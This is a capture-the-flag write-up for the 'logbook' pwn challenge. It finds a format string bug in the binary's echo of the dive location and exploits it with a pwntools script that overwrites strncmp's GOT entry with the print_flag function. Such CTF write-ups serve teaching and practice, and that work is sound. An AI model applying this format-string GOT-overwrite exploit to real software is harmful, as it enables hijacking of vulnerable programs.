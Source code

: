 # logbook (pwn)  
Writeup by: [xlr8or](https://ctftime.org/team/235001)

As part of this challenge we get an x86 ELF binary, not stripped.  
The binary has stack canaries, but no PIE and only partial RELRO.

`main` only calls `ignore_me` (which is a function to setup a kill timer) and
`logbook`.  
Let's deconstruct what happens bit by bit.

```c  
 gen_pass(&local_98,0x10);  
 puts((char *)&local_98);  
 puts("| ---------------------------------------- |");  
 puts("| >>> S.C.U.B.A.    Diving    logbook <<<  |");  
 puts("| ---------------------------------------- |");  
 puts("|            VERSION 3.0-SKPR              |");  
 puts("| ________________________________________ |\n");  
```

* Here some sort of password is generated, and then output to stdout (how secure).  
* Then we see the banner is printed

```c  
   __s = malloc(0xc);  
   memset(__s,0,0xc);  
   memset(local_78,0,100);  
   puts("Dive date:");  
   __isoc99_scanf("%11s",__s);  
   puts("Dive location:");  
   __isoc99_scanf("%99s",local_78);  
```  
* Some memory is allocated for the dive date, and the date is read into it  
   - 12 bytes are allocated and 11 bytes are read, so no vulnerabilities here  
* Some memory is allocated for the dive location, and the location is read into it  
   - again 100 bytes allocated and 99 read, no problems

```c  
   puts(" _______________________________________");  
   puts("|                SUMMARY                |");  
   puts("|_______________________________________|");  
   printf("DATE: %s\n",__s);  
   printf("LOCATION: ");  
   printf(local_78);  
   putchar(10);  
   record_logs(&local_98);  
```

* A banner is printed with the summary  
* The date is echoed back to the user  
* The location is echoed back to the user  
   - however notice this is different from the previous call, how `date` was printed  
   - since the user input here is directly passed to `printf` we have a **format string** vulnerability here

Since we have also established that the binary has partial RELRO only, I
decided to go for a GOT overwrite here.  
Another important finding is that there is a built-in function to the binary
called `print_flag`.

Therefore here is the plan of attack:  
1. Get to the location input prompt while providing dummy values, they don't matter  
2. Using the format string vulnerability we provide input such that we overwrite a pointer in the GOT with the `print_flag` function.  
3. Progress the application to the point where the function associated with the pointer we overwrote is called, and get the flag.

First let's pick the pointer that we want to overwrite. My first choice was
`putchar`, since it's right after out exploit it executed, and it is not
called before, therefore the binary will surely load the address from the GOT.

However the address of `putchar` in the GOT is located at address `0x404020`,
which is problematic, since we need to send this value through a `scanf` call,
but `0x20` is a space, therefore it will stop reading user input. Therefore I
looked for another candidate.

In `record_logs` we can find a call to `strncmp`, which is also the first call
to this function. Checking the address in the GOT, it is at `0x404028`, this
contains no bytes that would go through `scanf`, therefore I have decided to
go with this function.

Most of the format string exploitation was fully automated thanks to
[pwntools](http://docs.pwntools.com/en/stable/fmtstr.html), only finding the
right offset for a formatter we control was tricky, since per socket we only
get to execute one format string vuln, therefore some code was required to
restart the connection.

However once I had the offset, it was enough to just make a single connection.  
See the python script below for exploitation details:

```python  
from pwn import *

rem = True  
connstr = 'rumble.host 20776'  
binary_path = './binary'  
context.clear(arch = 'amd64')

elf = ELF(binary_path)

p = None  
if not rem:  
   p = process(binary_path)  
else:  
   parts = connstr.split(' ') if ' ' in connstr else connstr.split(':')  
   ip = parts[0]  
   port = int(parts[1])  
   p = remote(ip, port)

p.sendlineafter(b'date:', b'3')

# def send_payload(payload):  
   # p = process(binary_path)  
   # p.sendlineafter(b'date:', b'3')  
   # print('called')  
   # p.sendlineafter(b'location:', payload)  
   # p.recvuntil(b'LOCATION: ')  
   # r = p.recvline()[:-1]  
   # p.kill()  
   # return r

# print(FmtStr(execute_fmt=send_payload).offset)  
# # => 12

payload = fmtstr_payload(12, {elf.got.strncmp: elf.symbols['print_flag']})  
print(hex(elf.got.putchar))  
print(hex(elf.symbols['print_flag']))  
print(len(payload), payload)  
input('.')  
p.sendlineafter(b'location:', payload)  
p.interactive()  
```

The commented code was used to determine the first argument to
`fmtstr_payload`, the offset of the formatter we have control of.

The `fmtstr_payload` function will construct a payload which will overwrite
the address we have specified (`elf.got.strncmp`) with the address of the
`print_flag` function.

Using this script we can get the flag from the binary and win the $100 bet :)